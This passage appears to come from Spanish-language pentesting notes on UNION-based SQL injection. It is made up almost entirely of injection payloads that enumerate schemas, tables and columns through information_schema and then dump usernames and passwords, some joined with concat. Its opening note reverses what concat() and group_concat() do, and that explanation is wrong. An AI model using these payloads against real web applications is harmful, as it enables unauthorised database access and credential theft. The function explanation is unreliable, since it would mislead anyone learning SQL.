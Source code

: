 ==Importante==
La función group_concat() y concat() no hacen lo mismo
- ``group_concat()`` --> combina valores en **columnas**
- ``concat()`` --> combina valores en **filas**

También podemos ir viendo los resultados uno a uno con limit:
````sql
$WORD' union select 1,schema_name from information_schema.schemata limit 0,1-- -

-- 1,1   2,1    3,1 ...
````


````sql
$WORD' union select schema_name,null from information_schema.schemata-- -
````

## Listar tablas

Una vez conozcamos las bases de datos tenemos que **averiguar las columnas/filas de estas**

Lo malo de esto es que **te representa todas las tablas de todas las bases de datos**
````sql
$WORD' union select table_name,null from information_schema.tables-- -
````

Para que no pase esto podemos utilizar where:
````sql
$WORD' union select table_name,null from information_schema.tables where table_schema='NOMBREBD'-- -
````

## Listar Columnas
Ahora que conocemos las tablas queremos **dumpear las columnas**
````sql
$WORD' union select column_name,null from information_schema.columns where table_schema='NombreBaseDeDatos' and table_name='NombreTablaAListar' -- -
````

## Ver campos y datos
Si lo permite podemos utilizar los dos campos para que un lado aparezca el nombre y en otro aparezca la contraseña:
````sql
$WORD' union select username, password from NOMBRETABLA-- -
````

Si no te lo permite y solo puedes con un campo puedes utilizar la función concat:
````sql
$WORD' union select null, concat(username,':',password) from NOMBRETABLA-- -
````

En caso de que sea otra base de datos la que contiene estos campos tendríamos que indicarlo
````sql
$WORD' union select null, concat(username,':',password) from OtraTabla.users-- -
````
